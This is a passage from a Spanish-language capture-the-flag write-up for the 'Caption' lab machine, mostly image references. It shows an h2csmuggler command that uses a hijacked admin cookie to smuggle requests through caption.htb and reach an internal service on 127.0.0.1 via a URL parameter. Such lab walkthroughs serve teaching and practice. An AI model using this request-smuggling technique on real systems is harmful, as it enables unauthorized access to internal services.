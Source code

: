 <img src="/images/writeup-caption/23.png"/>

ahora, que haremos con esto? volveremos a usar la herramienta **h2csmuggler** con la nueva cookie:

<img src="/images/writeup-caption/24.png"/>

ahora, teniendo esas urls. podemos intentar acceder al contenido de la siguiente manera:
```bash
pyhon3 h2csmuggler.py -x http://caption.htb http://caption.htb/download?url=http://127.0.0.1:3923/ -H 'admin cookie'
```
